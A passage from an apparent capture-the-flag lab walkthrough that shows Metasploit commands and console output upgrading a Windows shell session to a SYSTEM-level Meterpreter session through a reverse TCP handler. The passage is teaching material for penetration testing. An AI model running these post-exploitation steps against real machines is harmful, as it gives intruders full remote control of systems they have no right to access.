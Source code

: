 ```
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    10.18.72.222     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on


View the full module info with the info, or info -d command.
```

Set the required option, you may need to list all of the sessions to find your target here. 

Run! If this doesn't work, try completing the exploit from the previous task once more.

```
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.18.72.222:4433 
[*] Sending stage (200774 bytes) to 10.10.131.30
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > [*] Meterpreter session 2 opened (10.18.72.222:4433 -> 10.10.131.30:49191) at 2023-07-27 11:50:54 -0400

[*] Stopping exploit/multi/handler

msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.72.222:4444 -> 10.10.131.30:49170 (10.10.131.30)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              10.18.72.222:4433 -> 10.10.131.30:49191 (10.10.131.30)
```
